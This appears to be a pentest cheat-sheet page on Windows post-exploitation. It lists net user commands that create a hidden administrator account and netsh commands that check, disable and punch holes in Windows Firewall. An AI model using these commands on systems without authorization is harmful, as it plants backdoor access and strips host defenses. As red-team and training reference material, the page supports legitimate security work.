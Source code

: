 # Windows - Post-Exploit

### Add local Administrator

The net user commands can be used to create and add a windows account in the
administrator group:

```
# Create a new account
net user /add <USERNAME> <PASSWORD>

# Add account as administrator
net localgroup Administrators <USERNAME> /add
net localgroup Administrateurs <USERNAME> /add
```

### Manage Windows Firewall

To check whether the Windows Firewall is enabled on a server or computer,
the following command can be used as Administrator/SYSTEM:

```bash
netsh advfirewall show allprofiles
```

By default, three separate listings are present: Domain profile settings,
private profile settings and public profile settings.  
With the private profile, applied to a network adapter when it is connected
to a network that is identified by the user or administrator as a private
network, Windows enables network discovery features, allows file sharing and
other networked features.   
The public profile, applied to a network adapter by default or if specified so
by an user or administrator, is the most restrictive profile. In the default
public profile, Windows will block all inbound connections to programs that are
not on the list of allowed programs.   
Finally, the Domain profile is used when a server or computer is joined to an
Active Directory domain. In this environment, firewall settings are typically
(but not necessarily) controlled by a network administrator.

To disable the firewall use the following commands:

```
# Disable current profile
netsh advfirewall set currentprofile state off

# Disable all profiles
netsh advfirewall set allprofiles state off

# Disable the private, public and domain profiles
netsh advfirewall set privateprofile state off
netsh advfirewall set publicprofile state off
netsh advfirewall set domainprofile state off
```

To open a specific port, or a range, use the following command:

```
netsh advfirewall firewall add rule name="<RULE_NAME" protocol=TCP dir=in localport=<PORT> action=allow
```
